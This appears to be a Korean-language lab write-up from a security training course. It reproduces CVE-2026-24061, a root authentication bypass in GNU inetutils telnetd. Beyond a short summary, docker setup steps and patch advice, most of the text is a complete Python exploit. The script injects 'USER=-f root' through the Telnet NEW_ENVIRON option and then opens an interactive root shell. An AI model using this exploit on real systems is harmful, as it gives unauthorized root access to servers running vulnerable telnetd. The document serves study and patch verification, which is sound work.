




# CVE-2026-24061 - GNU inetutils-telnetd Auth Bypass
> 화이트햇 스쿨 4기 36반 - [황상균(@saic12)](https://github.com/saic12)

---

요약

- Telnet은 인터넷이나 로컬 네트워크(LAN) 연결에 쓰이는 네트워크 프로토콜로, 사용자가 원격 컴퓨터에 접속하여 터미널 환경을 통해 직접 명령어를 실행할 수 있도록 해주는 서비스입니다.
- 이 취약점은 Telnet을 제공하는 서버 프로그램인 GNU Inetutils telnetd에서  발생하였으며, 클라이언트와 서버 간의 통신 초기화 과정에서 Telnet protocol (RFC 1572) 규격인 NEW_ENVIRON 옵션을 통해 클라이언트가 전송한 환경변수 값을 검증없이 인자로 받아들이면서 발생합니다.
- 공격자가 악의적으로 조작된 패킷을 생성하여 USER 환경변수에 “-f root”라는 문자열을 주입하면, -f 플래그(비밀번호 확인 절차 생략)로 인해 root 권한을 얻을 수 있습니다.
- CVSS Score : 9.8 (Critical)
- 영향을 받는 버전 : ≤ 2.7

참고문서

- [CVE-2026-24061/README.md at main · sh4den/CVE-2026-24061](https://github.com/sh4den/CVE-2026-24061/blob/main/README.md)
- [Fix injection bug with bogus user names · fd702c0249 - inetutils/inetutils - Codeberg.org](https://codeberg.org/inetutils/inetutils/commit/fd702c02497b2f398e739e3119bed0b23dd7aa7b)

환경 구성 및 실행

1. 환경 구성 

터미널에서 다음의 명령어를 통해 inetutils:2.5 테스트 환경을 실행합니다.

```bash
docker compose up -d
```

이후 docker ps 명령어를 통해 타겟 서버의 환경이 구축 되었는지 확인합니다.

```bash
docker ps
```



타겟 컨테이너의 STATUS가 UP 상태이고, 호스트의 23번 포트가 컨테이너의 23번 포트로 정상 연결되어 있는지 확인합니다.

1. 실행

아래의 exploit.py 코드를 이용하여 진행합니다.

```python
#!/usr/bin/env python3
import socket
import select
import sys
import time

# RFC 1572 규격
IAC = b"\xff"           
WILL = b"\xfb"          
WONT = b"\xfc"          
DO   = b"\xfd"          
DONT = b"\xfe"          
SB   = b"\xfa"          
SE   = b"\xf0"          
NEW_ENVIRON = b"\x27"   
IS = b"\x00"
VAR = b"\x00"
VALUE = b"\x01"

TARGET_IP = "127.0.0.1"
TARGET_PORT = 23

def exploit():
    print("Target locked: {}:{}".format(TARGET_IP, TARGET_PORT))
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        s.connect((TARGET_IP, TARGET_PORT))
        print("TCP Connection established.")
    except Exception as e:
        print("Connection failed:", e)
        return

    s.sendall(IAC + WILL + NEW_ENVIRON)
    
    payload = (
        IAC + SB + NEW_ENVIRON + IS +
        VAR + b"USER" + VALUE + b"-f root" +
        IAC + SE
    )

    time.sleep(0.5)
    print("Injecting malicious NEW_ENVIRON payload (USER=-froot)...")
    s.sendall(payload)
    
    time.sleep(0.5)
    s.sendall(b"stty -echo\n")
    
    print("-" * 50)
    while True:
        try:
            r, w, e = select.select([s, sys.stdin], [], [])
            for fd in r:
                if fd == s:
                    data = s.recv(4096)
                    if not data:
                        print("\nConnection closed by server.")
                        return
                    
                    i = 0
                    clean_data = b""
                    while i < len(data):
                        if data[i:i+1] == IAC: # 0xFF 가 들어오면 제어 문자 -> 걸러주기
                            if i + 1 < len(data):
                                cmd = data[i+1:i+2]
                                if cmd in [DO, DONT, WILL, WONT]:
                                    if i + 2 < len(data):
                                        opt = data[i+2:i+3]
                                        if cmd == DO:
                                            s.sendall(IAC + WONT + opt)
                                        elif cmd == WILL:
                                            s.sendall(IAC + DONT + opt)
                                        i += 3
                                        continue
                                elif cmd == SB:
                                    se_idx = data.find(IAC + SE, i)
                                    if se_idx != -1:
                                        i = se_idx + 2
                                        continue
                                    else:
                                        break
                        clean_data += data[i:i+1]
                        i += 1
                    
                    # 출력 필터링
                    if clean_data:
                        sys.stdout.write(clean_data.decode(errors="ignore"))
                        sys.stdout.flush()
                        
                elif fd == sys.stdin:
                    cmd = sys.stdin.readline()
                    s.sendall(cmd.encode())
        except KeyboardInterrupt:
            print("\nExiting shell...")
            s.close()
            break

if __name__ == "__main__":
    exploit()
```

타겟 컨테이너가 구동 중인 상태에서, 호스트 머신의 터미널에서 exploit.py 코드를 실행합니다.

```bash
python3 exploit.py
```

스크립트가 실행되며 아래의 순서로 진행됩니다.

- 타겟 서버와 TCP 연결 수립
- NEW_ENVIRON 옵션 활성화 후 “-f root”를 USER 환경변수에 주입
- Telnet daemon이 “/bin/login -p -h 127.0.0.1 -f root”를 실행하여 인증 우회



이후 쉘 대기 상태로 돌입합니다. 이때 터미널에 직접 명령어를 입력하여 Root 권한을 확인할 수 있습니다.

결과



해결방법

- 해당 취약점이 패치된 버전의 inetutils 패키지로 업데이트해야 합니다. 이 버전에서는 환경변수에 대한 검증이 추가되어 우회를 차단합니다.

